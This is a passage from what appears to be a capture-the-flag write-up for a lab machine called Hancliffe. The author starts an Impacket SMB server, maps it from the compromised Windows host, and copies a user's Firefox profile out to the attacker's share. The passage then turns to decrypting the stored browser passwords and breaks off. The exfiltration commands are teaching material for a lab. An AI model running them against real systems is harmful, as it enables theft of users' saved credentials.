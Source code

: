 

#### Exfil

To really look through this profile, I'll want to copy all of files back
to my VM. I'll start a SMB server with Python:



    oxdf@hacky$ smbserver.py s . -username oxdf -password oxdf -smb2support
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



For modern versions of Windows, I won't be able to connect without a
username and password, and I'll need SMBv2 support.

I'll connect to the share from Hancliffe:



    PS C:\> net use \\10.10.14.6\s /u:oxdf oxdf                
    The command completed successfully.



Now I can access `\\10.10.14.6\s` from Hancliffe.

I'll copy the entire profile back to my computer:



    PS C:\Users\clara\appdata\roaming\mozilla\firefox\profiles> copy -recurse ljftf853.default-release \\10.10.14.6\s\



### Decrypt Passwords

#### Manual Exploring

[This
post](https://apr4h.github.io/2019-12-20-Harvesting-Browser-Credentials/)
does a really nice job walking through how Firefox (and Chrome)
passwords can be decrypted. [This
Diagram](https://raw.githubusercontent.com/lclevy/firepwd/master/mozilla_pbe.pdf)
is also really useful:
